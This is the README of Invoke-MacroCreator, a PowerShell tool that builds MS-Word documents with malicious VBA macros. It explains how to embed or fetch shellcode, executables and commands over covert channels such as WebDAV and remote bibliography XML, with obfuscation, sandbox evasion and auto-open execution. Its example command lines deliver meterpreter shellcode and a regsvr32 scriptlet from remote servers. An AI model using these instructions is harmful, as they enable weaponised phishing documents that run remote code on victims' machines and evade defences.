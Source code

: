 Macro Creator
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

Invoke-MacroCreator is a powershell Cmdlet that allows for the creation of an MS-Word document embedding a VBA macro with various payload delivery and execution capabilities.

Description
-----------------
Basically the script supports three **types** of payload that you MUST specify using the `-t` argument:
  1. `shellcode`: any raw shellcode (*for instance created with msfvenom*). The shellcode is loaded into memory then loaded into the MS-Word process space and executed.
  2. `file`: any type of file (*executable, script, whatever...*). The file is first saved to a local temporary directory then called thanks to a command line specified as an argument.
  3. `command`: any command line to be executed

In either case, the payload itself must be a file (*even a `command` type payload should be in a file*). The file is specified using the `-i` argument.

Those payloads can be delivered through several **delivery** methods that you MUST specify using the `-d` argument:
  1. `body`: the payload is embedded into the body of the MS-Word document in an encoded form. This comes with a limit in terms of size of file that can be embedded.
  2. `comment`: the payload is embedded into the comment of the MS-Word document in a base64 encoded form. This technique is inspired by Invoke-Commentator.
  3. `webdav`: the payload is downloaded over a specific **WebDAV covert channel** (*PROPFIND only*) and requires a tool at the server side counter part: [@WebDavDelivery](https://github.com/Arno0x/WebDavDelivery). The process seen performing network traffic is 'svchost.exe'.
  4. `biblio`: aka "Bibliograpy sources". The payload is embedded in a bibliography sources XML file and then loaded over HTTP(S). The generated 'sources.xml' file must be hosted on a web server.	The process seen performing network traffic is 'word.exe'.
  5. `html` (*using IE*): the payload is embedded into a simple HTML file and then downloaded over HTTP(S) from an Internet Explorer COM object. The generated 'index.html' file must be hosted on a web server. The process seen performing network traffic is 'iexplorer.exe'

If the payload type is a `file`, use the `-c` option to define how the file should be called or executed.

If the delivery method is `webdav`, `biblio` or `html`, you can set the UNC/URL to use with the `-url` option. If you don't set this UNC/URL, the default parameters defined at the beginning of the script are used.

When a command is to be executed (*`file` or `cmd` payload*), three different execution methods are available that can be choosen using the `-m` switch.
	
[*Optionnal*] Using the optionnal `-o` switch, some level of obfuscation is applied on parts of the macro. Obfuscation is applied on:
  1. Variable names (in the template files, all variable surrounded by '_'. ex: `_varName_`)
  2. Function names (in the template files, all functions surrounded by '#'. ex: `#FunctionName#`)
  3. All string parameters (in the template files, all strings surrounded by '-'. ex: `-"any string"-`)
	
[*Optionnal*] Using the optionnal `-e` switch, some sandbox evasion technique can also be included. If a sandbox is being detected, the payload is not executed and the macro stops.

[*Optionnal*] Using the optionnal `-a` switch, auto open functions are added so that the macro is executed automatically when the document is opened. This is what you want for an "effective" attack, but probably not for testing/debugging purposes.


Dependencies
-----------------
Invoke-MacroCreator requires a proper installation of Microsoft Word.


Examples
-----------------
Here are some sample examples:
  
Shellcode embedded in the body of the MS-Word document, no obfuscation, no sandbox evasion:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d body`
  
Shellcode delivered over WebDAV covert channel, with obfuscation, no sandbox evasion:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -url webdavserver.com -d webdav -o`
  
Scriptlet delivered over bibliography source covert channel, with obfuscation, with sandbox evasion:

`C:\PS> Invoke-MacroCreator -i regsvr32.sct -t file -url 'http://my.server.com/sources.xml' -d biblio -c 'regsvr32 /u /n /s /i:regsvr32.sct scrobj.dll' -o -e`
  
Executable delivered over WebDAV covert channel, using default UNC, no obfuscation, with sandbox evasion, using execution method 3:

`C:\PS> Invoke-MacroCreator -i badass.exe -p file -t webdav -c 'badass.exe' -e -m 3`
  
Command line embedded in the body of the MS-Word document, with obfuscation, no sandbox evasion, using execution method 1:

`C:\PS> Invoke-MacroCreator -i my_cmd.bat -p cmd -t body -o -m 1`
  
Shellcode embedded in a comment of the MS-Word document, no obfuscation, no sandbox evasion, adding auto-open functions:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d comment -a`

